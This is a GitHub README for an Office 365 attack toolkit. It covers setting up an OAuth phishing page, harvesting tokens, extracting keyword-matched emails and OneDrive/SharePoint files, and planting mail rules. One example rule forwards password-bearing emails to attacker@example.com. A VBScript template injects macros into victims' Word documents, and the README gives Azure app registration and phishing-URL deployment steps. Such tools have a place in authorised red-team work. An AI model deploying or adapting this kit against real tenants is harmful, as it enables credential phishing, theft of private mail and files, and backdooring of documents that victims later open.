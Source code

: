# o365-attack-toolkit-us
used in gcc high

```
go get -u github.com/jadams/o365-attack-toolkit-us
cd ${GOPATH:-$HOME/go}/src/github.com/jadams/o365-attack-toolkit-us
go build
./o365-attack-toolkit-us
```

## What is o365-attack-toolkit

o365-attack-toolkit allows operators to perform an OAuth phishing attack and later on use the Microsoft Graph API to extract interesting information.

Some of the  implemented features are :
* Extraction of keyworded e-mails from Outlook.
* Creation of Outlook Rules.
* Extraction of files from OneDrive/Sharepoint.
* Injection of macros on Word documents.


## Architecture

![](/images/Architecture.png)


### The toolkit consists of several components
### Phishing endpoint
The phishing endpoint is responsible for serving the HTML file that performs the OAuth token phishing.
### Backend services
Afterward, the token will be used by the backend services to perform the defined attacks.
### Management interface
The management interface can be utilized to inspect the extracted information from the Microsoft Graph API.

## Features

### Outlook Keyworded Extraction
User emails can be extracted by this toolkit using keywords.
For every defined keyword in the configuration file, all the emails that match them will be downloaded and saved in the database. The operator can inspect the downloaded emails through the management interface.
### Onedrive/Sharepoint Keyworded Extraction
Microsoft Graph API can be used to access files across OneDrive, OneDrive for Business and SharePoint document libraries.
User files can be extracted by this toolkit using keywords.
For every defined keyword in the configuration file, all the documents that match them will be downloaded and saved locally. The operator can examine the documents using the management interface.

### Outlook Rules Creation
Microsoft Graph API supports the creation of Outlook rules. 
You can define different rules by putting the rule JSON files in the rules/ folder.
https://docs.microsoft.com/en-us/graph/api/mailfolder-post-messagerules?view=graph-rest-1.0&tabs=cs

Below is an example rule that when loaded, it will forward every email that contains password in the body to ```attacker@example.com```.
```json
{      
    "displayName": "Example Rule",      
    "sequence": 2,      
    "isEnabled": true,          
    "conditions": {
        "bodyContains": [
          "password"       
        ]
     },
     "actions": {
        "forwardTo": [
          {
             "emailAddress": {
                "name": "Attacker Email",
                "address": "attacker@example.com"
              }
           }
        ],
        "stopProcessingRules": false
     }    
}
```

### Word Document Macro Backdooring
Users documents hosted on OneDrive can be backdoored by injecting macros. If this feature is enabled, the last 15 documents accessed by the user will be downloaded and backdoored with the macro defined in the configuration file. After the backdoored file has been uploaded, the extension of the document will be changed to .doc in order for the macro to be supported on Word.
It should be noted that after backdooring the documents, they can not be edited online which increases the chances of our payload execution.

This functionality can only be used on Windows because the insertion of macros is done using the Word COM object.
A VBS file is built by the template below and executed so don't panic if you see ``wscript.exe`` running.

```vbscript
	Dim wdApp
	Set wdApp = CreateObject("Word.Application")
	wdApp.Documents.Open("{DOCUMENT}")
	wdApp.Documents(1).VBProject.VBComponents("ThisDocument").CodeModule.AddFromFile "{MACRO}"
	wdApp.Documents(1).SaveAs2 "{OUTPUT}", 0
	wdApp.Quit
```

## How to set up

### Compile

```
cd %GOPATH%
git clone https://github.com/mdsecactivebreach/o365-attack-toolkit
cd o365-attack-toolkit
dep ensure
go build
```

### Configuration

An example configuration as below :
```
[server]
host = 127.0.0.1 ; The ip address for the external listener.
externalport = 30662 ; Port for the external listener
certificate = server.crt ; Certificate for the external listener
key = server.key ; Key for the external listener
internalport = 8080 ; Port for the internal listener.

; Keywords used for extracting emails and files of a user.
[keywords]
outlook = pass,vpn,creds,credentials
onedrive = password,.config,.xml,db,database,mbd 

[backdoor]
enabled = true ; Enable/Disable this feature
macro = "C:\\Test.bas" ; The location of the macro file to use for backdooring documents
```

### Deployment
Before start using this toolkit you need to create an Application on the Azure Portal.
Go to Azure Active Directory -> App Registrations -> Register an application.

![](/images/registerapp.png)

After creating the application, copy the Application ID and change it on ```static/index.html```.

The URL(external listener) that will be used for phishing should be added as a Redirect URL.
To add a redirect url, go the application and click Add a Redirect URL.

![](/images/redirecturl.png)

The Redirect URL should be the URL that will be used to host the phishing endpoint, in this case ```https://myphishingurl.com/```

![](/images/url.png)

Make sure to check both the boxes as shown below :

![](/images/implicitgrant.png)

It should be noted that you can run this tool on any Operating Systems that Go supports, but the Macro Backdooring Functionality will only work on Windows.

The look of the phishing page can be changed on ```static/index.html```.

##  Security Considerations

Apart from all the features this tool has, it also opens some attack surface on the host running the tool.
Firstly, the Macro Backdooring Functionality will open the word files, and if you are running an unpatched version 
of Office, bad things can happen. Additionally, the extraction of files can download malicious files which will be saved on your computer. 

The best approach would be isolating the  host properly and only allowing communication with the HTTPS redirector and Microsoft Graph API.


## Management Interface

The management interface allows the operator to browse the data that  has been extracted. 

#### Users view

![](/images/users.png)

#### View User Emails

![](/images/emails.png)


#### View Email

![](/images/email.png)

